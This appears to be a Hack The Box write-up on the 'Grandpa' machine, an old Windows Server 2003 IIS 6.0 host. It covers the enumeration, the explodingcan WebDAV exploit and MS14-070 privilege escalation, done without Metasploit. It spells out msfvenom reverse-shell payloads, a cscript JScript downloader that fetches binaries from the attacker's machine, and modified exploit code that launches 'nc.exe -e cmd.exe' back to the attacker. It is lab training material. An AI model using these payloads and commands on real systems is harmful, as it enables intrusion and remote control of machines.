


Grandpa
=======

This box is rated easy on HTB, but I decided to give myself a challenge and do this box OSCP style: no metasploit, no meterpreter, etc.

Enumeration
-----------

### Nmap

`nmap -A grandpa.htb`
```
# Nmap 7.70 scan initiated Thu Apr 18 17:19:36 2019 as: nmap -A -p- -o nmap 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.073s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT                                                                                       
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan:
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK                                                                        
|   WebDAV type: Unkown
|   Server Date: Fri, 19 Apr 2019 00:16:28 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH                                                              
|_  Server Type: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 17:21:30 2019 -- 1 IP address (1 host up) scanned in 115.01 seconds
```

A very promising lead is that the server is running Server 2003, which has been EOL for some time. It also looks like a very old version of IIS is running on port 80. WebDav is also enabled.

I would normally do more enumeration from here, but I already know that the exploit 'explodingcan' from the shadowbroker's dump works specifically for this this version of the server.

Getting User
------------

I'm using [danigargu's](https://github.com/danigargu/explodingcan) version of the exploit.

If we look at the exploit, the author mentions that we need to generate our own shellcode for code execution. Fortunately, danigargu has an example msfvenom command that we can use.

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=172.16.20.1 LPORT=4444 > shellcode
```

Since I'm avoiding any use of meterpreter, I opt to use the stageless windows shell payload.

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.2 lport=4444 -f raw -v sc -e x86/alpha_mixed > shellcode
```

The reason that I'm choosing to use the stageless payload is so I don't have to rely on `multi/handler` to capture my shells. I'm just using netcat to catch my reverse shells.



After running the exploit, it looks like we're on the box as `NT Authority\Network Service`, which is actually a low privileged user, despite being part of `NT Authority`. We don't Grandpa's user.txt at `c:\users\grandpa\Desktop\user.txt`, so it's onto privesc from here.

Getting Root
------------

Because this is such an old box, there's bound to be some kind of kernel exploit against server 2003.

Running `sysinfo` gives us some additional info as well

```
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 11 Hours, 12 Minutes, 27 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 6 Model 63 Stepping 2 GenuineIntel ~2299 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 788 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,319 MB
Page File: In Use:         151 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

But before we do any kind of exploitation, we need a way to get files onto the box. On older versions of windows like this one, there is no powershell, no curl, no wget. After some searching around, I stumbled across a method using cscript to execute a javascript downloader.

```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile("out.bin");
```
Where `out.bin` is changed to the name of the executable we want to download. 

I build it into `%TMP%` by echoing the script line by line. Not the prettiest solution, but it works.

To download a file over http, we simply run `cscript.exe http://10.10.14.2/filename`.

Getting back to privesc, the exploit I've chosen to go with is ms14-070, located on exploitdb as `37755.c`.

I always like to do a quick cursory look at the contents of the exploit so I get somewhat of an idea of what payload gets executed
> You need to change: 
> `typedef DOUBLE NTSTATUS;` to `typedef LONG NTSTATUS;`

```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\system32\\cmd.exe /k c:\\windows\\system32\\cmd.exe",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
}
```

Of course, just running the exploit doesn't give anything, because it's just spawning a cmd process that we have no control over. I ended up trying two different ways of trying to get a reverse shell, both of which didn't fully succeed.

I first tried the payload with a netcat binary, which calls back to us serving cmd. What's problematic here is that that session actually dies the moment it's spawned. However, it is still possible to read `root.txt` using this method.

Netcat method.
```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\Temp\\nc.exe -e cmd.exe 10.10.14.2 4445",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
}

```

Just reading `root.txt`.
```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\system32\\cmd.exe /c type c:\\users\\administrator\\Desktop\\root.txt > c:\\windows\\temp\\root.txt",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
}

```

The third method I tried involves using `msfvenom` to generate a reverse shell binary. When I tested with staged and stageless payloads, the result is still that the session dies upon connecting back to us. Even when testing with metasploit's `multi/handler` instead of netcat. After some playing with some options, I found that setting `PrependMigrate` to `true` somewhat fixes the issue.


`msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.2 lport=4445 prependmigrate=true prependmigrateproc=wmiprvse.exe -f exe -o revshell.exe`
```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\Temp\\revshell.exe",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
}

```

Now there is still that final issue: the exploit doesn't launch our executable. Or at least that's what I can tell. What's interesting is that executing the exploit with meterpreter's `execute -f ` function gives us a system shell as expected. But running the exploit via cmd just hangs our shell.




